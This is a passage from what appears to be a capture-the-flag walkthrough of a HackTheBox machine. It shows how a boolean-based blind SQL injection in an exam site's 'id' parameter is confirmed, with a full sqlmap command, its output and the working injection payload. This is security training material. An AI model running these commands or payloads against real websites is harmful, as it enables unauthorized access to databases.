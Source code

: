 Visiting the URL returns a page:

![image-20220503173823111](https://0xdfimages.gitlab.io/img/image-20220503173823111.png)

If I replace `4755=4755` with `4755=4756`:

![image-20220511100624195](https://0xdfimages.gitlab.io/img/image-20220511100624195.png)

This page actually has the following tacked on at the end of the HTML:

```

<script> alert("Unkown Exam ID"); location.replace("./");</script>

```

Given the different behaviors based on if the condition in the middle is equal or not, this is a boolean-based SQL injection.

#### sqlmap

I’ll give `sqlmap` the URL, as well as `--technique B` (for boolean-based) and `-p id` to tell it which parameter to work on.

```

oxdf@hacky$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch
...[snip]...
[14:05:35] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=844b4ad6133...45b2d7d69c'). Do you want to use those [Y/n] Y
[14:05:35] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:05:36] [INFO] testing if the target URL content is stable
[14:05:36] [INFO] target URL content is stable
[14:05:36] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[14:05:36] [INFO] testing for SQL injection on GET parameter 'id'
[14:05:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:05:38] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="This")
[14:05:40] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:05:40] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 39 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 5630=5630 AND 'cpfT'='cpfT
---
[14:05:41] [INFO] testing MySQL
[14:05:41] [INFO] confirming MySQL
[14:05:41] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
...[snip]...

```
